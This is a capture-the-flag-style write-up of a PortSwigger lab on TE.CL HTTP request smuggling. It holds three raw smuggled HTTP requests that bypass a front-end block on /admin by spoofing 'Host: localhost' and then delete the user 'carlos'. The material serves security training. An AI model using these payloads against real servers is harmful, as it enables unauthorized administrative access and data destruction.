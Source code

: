 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl) involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## Reproduction and proof of concept

1. Try to visit ``/admin`` and observe that the request is blocked.
2. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
3. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

4. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
5. Issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

6. Observe that you can now access the admin panel.
7. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

## Exploitability

An attacker will need to smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`. This lab is divided in two parts. In the first part the goal is to access the ``/admin`` page, in the second part the goal is to delete a user. So two different requests must be sent.
